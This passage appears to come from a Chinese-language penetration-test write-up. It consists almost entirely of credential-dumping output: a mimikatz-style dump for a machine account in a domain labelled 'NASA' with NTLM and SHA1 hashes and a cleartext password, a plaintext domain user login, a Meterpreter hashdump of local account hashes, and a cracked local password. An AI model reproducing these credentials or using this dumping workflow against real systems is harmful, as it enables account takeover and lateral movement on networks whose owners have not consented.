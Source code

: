 ```
Logon Time        : 2022/1/11 15:58:24
SID               : 
        msv :
         [00000003] Primary
         * Username : WIN7$
         * Domain   : NASA
         * NTLM     : 0fbad63307672e68d157f15812c68f10
         * SHA1     : 22aced348f05f70a40d2177591b65f6ff61c8053
        tspkg :
        wdigest :
        kerberos :
        ssp :
        credman :

Authentication Id : 0 ; 999 (00000000:000003e7)
Session           : UndefinedLogonType from 0
User Name         : WIN7$
Domain            : NASA
Logon Server      : (null)
Logon Time        : 2022/1/11 15:58:24
SID               : S-1-5-18
        msv :
        tspkg :
        wdigest :
         * Username : WIN7$
         * Domain   : NASA
         * Password : *TWd&U<_HmU- 9O*'%$qBwkI?;("u $YVsgqo D'jUOR[b$<"d(4.nwOFf(UyUG.q7@c.xz+=KcHCr+,%F7>i?=((QLz8#:b/IXA@!Sc(gH:vdmopQmNfBzw
        kerberos :
         * Username : win7$
         * Domain   : NASA.GOV
         * Password : *TWd&U<_HmU- 9O*'%$qBwkI?;("u $YVsgqo D'jUOR[b$<"d(4.nwOFf(UyUG.q7@c.xz+=KcHCr+,%F7>i?=((QLz8#:b/IXA@!Sc(gH:vdmopQmNfBzw
        ssp :
        credman :
```

发现一个域内用户：  test:QWEasd!@#999

```
meterpreter > hashdump
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
win7:1000:aad3b435b51404eeaad3b435b51404ee:f099c4a637f9b871487bbb03962f79b5:::
```

解密本机win7账号：  win7:admin555
